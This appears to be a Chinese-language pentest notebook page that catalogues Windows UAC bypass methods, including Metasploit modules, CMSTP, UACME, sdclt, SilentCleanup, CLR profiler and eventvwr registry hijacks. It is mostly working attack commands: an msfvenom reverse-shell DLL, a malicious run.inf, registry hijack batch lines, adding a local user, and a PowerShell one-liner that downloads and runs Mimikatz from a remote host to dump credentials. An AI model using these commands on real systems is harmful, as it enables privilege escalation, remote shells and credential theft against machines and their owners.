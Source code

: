 #### MSF
	>use exploit/windows/local/bypassuac 
	>use exploit/windows/local/bypassuac_injection
	>use exploit/windows/local/bypassuac_vbs
	>use exploit/windows/local/bypassuac_fodhelper
	>use exploit/windows/local/bypassuac_eventvwr
	>use exploit/windows/local/bypassuac_comhijack
#### DccwBypassUAC
	Use on win10&win8
![image](/assets/Pentest_Note/master/img/105.png)
#### K8uac
	>k8uac.exe xx.exe
	>k8uac.exe "command"
#### CMSTP
	设置UAC和Applocker规则
![image](/assets/Pentest_Note/master/img/106.png)
![image](/assets/Pentest_Note/master/img/107.png)
![image](/assets/Pentest_Note/master/img/108.png)
![image](/assets/Pentest_Note/master/img/109.png)

	MSF生成恶意DLL传入靶机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/cm.dll
![image](/assets/Pentest_Note/master/img/110.png)

	DLL同目录下建立run.inf，RegisterOCXSection指定dll位置，也可以指定远程webdav
	如：\\192.168.0.107\webdav\cm.dll
	[version]
	Signature=$chicago$
	AdvancedINF=2.5
	[DefaultInstall_SingleUser]
	RegisterOCXs=RegisterOCXSection
	[RegisterOCXSection]
	C:\Users\y.SUB2K8\Desktop\cm.dll
	[Strings]
	AppAct = "SOFTWARE\Microsoft\Connection Manager"
	ServiceName="cmstp"
	ShortSvcName="cmstp"
	执行命令可绕过UAC和Applocker上线
	>cmstp /s run.inf
![image](/assets/Pentest_Note/master/img/111.png)
#### Uacme
	包括DLL劫持，COM劫持等50多种bypass方法
	https://github.com/hfiref0x/UACME
![image](/assets/Pentest_Note/master/img/112.png)

	使用visual studio编译
	Visual Studio 2013v120；
	Visual Studio 2015v140；
	Visual Studio 2017v141;
	Visual Studio 2019v142。
	目前共59种bypassuac方式
	执行方法是
	>akagi.exe 1
	>akagi.exe 1 c:\windows\system32\cmd.exe
	>akagi.exe 1 "net user 1 1 /add"
	注意：
	方式5，9会对目标安全性产生影响，谨慎使用，5需重启
	方式6从win8开始在x64上不可用
	方式11，54只支持x32 
	方式13，19，30，50只支持x64
	方式14需要进程注入，x64要使用x64的工具
#### Bypass-UAC
	https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
	>Bypass-UAC -Method UacMethodSysprep
![image](/assets/Pentest_Note/master/img/113.png)

	Method:
	UacMethodSysprep
	ucmDismMethod
	UacMethodMMC2
	UacMethodTcmsetup
	UacMethodNetOle32
#### DLL hijack
	程序运行，调用DLL的流程
	1.程序所在目录
	2.系统目录即 SYSTEM32 目录
	3.16位系统目录即 SYSTEM 目录
	4.Windows目录
	5.加载 DLL 时所在的当前目录
	6.PATH环境变量中列出的目录
	使用
	https://docs.microsoft.com/zh-cn/sysinternals/downloads/sigcheck
	检查一个程序的是否以高权限执行
	>sigcheck.exe -m c:\1.exe
	查看autoElevate是否为true
![image](/assets/Pentest_Note/master/img/114.png)

	使用process monitor查看对应程序执行时调用的DLL情况，查找DLL不在
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs列表中，并且所在文件夹当前用户可读写，接下来生成恶意dll备份原DLL替换，再运行此程序即可劫持成功。
#### SilentCleanup
	>reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
	>schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
#### Sdclt
	win10
##### 1
	>reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /t REG_SZ /d %COMSPEC% /f 获得管理员权限
	>sdclt 弹出cmd
	>reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f 清除痕迹
##### 2
	https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-SDCLTBypass.ps1
	>Invoke-SDCLTBypass -Command "c:\windows\system32\cmd.exe /c C:\Windows\regedit.exe"
	>sdclt.exe /KickOffElev
#### Makecab&Wusa
	复制文件出错时
![image](/assets/Pentest_Note/master/img/115.png)

	>makecab PsExec64.exe C:\Users\y.ZONE\Desktop\ps.cab
	>wusa C:\Users\y.ZONE\Desktop\ps.cab /extract:C:\Windows\system32\
![image](/assets/Pentest_Note/master/img/116.png)
#### CLR BypassUAC
	Tested on win10 x64
	生成dll传入受控机temp目录，以下保存为1.bat执行。
	REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\Temp\test.dll" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
	REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "C:\Temp\test.dll" /f
	受控机执行gpedit.msc或eventvwr等高权限.net程序时可劫持成功。
![image](/assets/Pentest_Note/master/img/117.png)

	执行后
![image](/assets/Pentest_Note/master/img/118.png)
![image](/assets/Pentest_Note/master/img/119.png)
![image](/assets/Pentest_Note/master/img/120.png)
#### eventvwr劫持注册表
	打开ProcessMonitor，启动eventvwr，ctrl+T打开进程树，选择进程转到事件
![image](/assets/Pentest_Note/master/img/121.png)

	右键选择包括eventvwr.exe
![image](/assets/Pentest_Note/master/img/122.png)

	只选择显示注册表活动
![image](/assets/Pentest_Note/master/img/123.png)

	添加一条过滤器，显示not found文件
![image](/assets/Pentest_Note/master/img/124.png)

	找到相应的注册表位置
![image](/assets/Pentest_Note/master/img/125.png)
![image](/assets/Pentest_Note/master/img/126.png)

	值修改为
![image](/assets/Pentest_Note/master/img/127.png)

	MSF监听，再次打开eventvwr
![image](/assets/Pentest_Note/master/img/128.png)
#### Web Delivery
	>use exploit/multi/script/web_delivery
	>set target 3
	>set payload windows/x64/meterpreter/reverse_tcp
	>exploit
	>use auxiliary/server/regsvr32_command_delivery_server
	>set cmd ipconfig
	>use exploit/windows/misc/regsvr32_applocker_bypass_server
#### Invoke-PsUACme
	method="sysprep","oobe","ActionQueue","migwiz","cliconfg","winsat","mmc"
	>Invoke-PsUACme -method oobe -Payload "c:\user\a\desktop\x.exe"
	需指定绝对路径
	>Invoke-PsUACme -method oobe -Payload "powershell -w hidden -e xxxxxx"
	>Invoke-PsUACme -Payload "powershell -noexit IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"
	MSFVENOM生成psh-reflection格式脚本
	>Invoke-PsUACme –Payload "powershell c:\1.ps1"
